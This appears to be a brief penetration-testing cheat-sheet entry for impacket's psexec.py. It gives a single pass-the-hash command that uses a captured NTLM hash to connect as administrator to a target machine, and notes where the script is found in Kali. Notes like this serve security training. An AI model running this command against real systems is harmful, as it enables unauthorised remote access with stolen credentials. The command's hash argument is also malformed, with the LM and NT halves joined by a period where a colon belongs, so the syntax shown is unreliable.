 psexec.py

# psexec.py

If you have a hash, you can try passing the hash to connect to the a share:

(located in Kali under `usr/share/doc/python3-impacket/examples`)
```
$ python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee.<hash> administrator@<target_IP>
```